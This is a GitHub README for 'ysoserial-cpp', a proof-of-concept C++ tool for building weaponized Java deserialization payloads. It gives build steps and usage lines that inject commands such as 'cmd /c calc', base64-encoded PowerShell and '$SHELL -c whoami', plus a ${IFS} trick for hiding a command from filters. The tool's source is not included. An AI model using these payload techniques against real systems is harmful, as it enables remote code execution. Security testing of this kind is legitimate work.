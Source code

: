 # ysoserial-cpp


```
      .                                                                     ...                        ..    
  .x88888x.                                                ..           .zf"` `"tu               . uW8"      
 :8**888888X.  :>               u.    u.      u.    u.    @L           x88  day '8N.             `t888       
 f    `888888x./       .u     x@88k u@88c.  x@88k u@88c. 9888i   .dL   888k     d88&       u      8888   .   
'       `*88888~    ud8888.  ^"8888""8888" ^"8888""8888" `Y888k:*888.  8888N.  @888F    us888u.   9888.z88N  
 \.    .  `?)X.   :888'8888.   8888  888R    8888  888R    888E  888I  `88888 9888%  .@88 "8888"  9888  888E 
  `~=-^   X88> ~  d888 '88%"   8888  888R    8888  888R    888E  888I    %888 "88F   9888  9888   9888  888E 
         X8888  ~ 8888.+"      8888  888R    8888  888R    888E  888I     8"   "*h=~ 9888  9888   9888  888E 
         488888   8888L        8888  888R    8888  888R    888E  888I   z8Weu        9888  9888   9888  888E 
 .xx.     88888X  '8888c. .+  "*88*" 8888"  "*88*" 8888"  x888N><888'  ""88888i.   Z 9888  9888  .8888  888" 
'*8888.   '88888>  "88888%      ""   'Y"      ""   'Y"     "88"  888  "   "8888888*  "888*""888"  `%888*%"   
  88888    '8888>    "YP'                                        88F        ^"**""    ^Y"   ^Y'      "`      
  `8888>    `888            @h0ffy                               98"                                          
   "8888     8%                2025                             ./"                                            
    `"888x:-"                                                ~`                                            

```



## ysoserial-cpp ( PoC )
Implementation of object serializations an weaponizing in cpp similar functionalitity ( a lost day... than yoserial )

    @GNU GPL3 License ( JennyLab OpenSource )
    

    * Build
    
     ```
     g++ -std=c++17 -O2 -o ysoserial-cpp ysoserial.cpp
     ```


    * Payload inject execution commands abusing serialization
        `./ysoserial-cpp templates "cmd /c calc"`
    * Encoding
        `./ysoserial-cpp object1 "powershell -enc <base64_command>"`
    * Obfucation 
        `./ysoserial-cpp object2 "p\${IFS}ing\${IFS}8.8.8.8"`
    * Inyecting ENV
        `./ysoserial-cpp templates "\$SHELL -c 'whoami'"`



## Code "ysoserial-cpp.cpp"
    ```
        ysoserial.cpp   # ysoserial-cpp
        ├── JavaSerialization   # Constants and types
        ├── JavaPayloadGen # Main class to make and object in C++ to serialize this serialization with provide and destination in seralize... Seria... Lize!!!
    ```                                                           
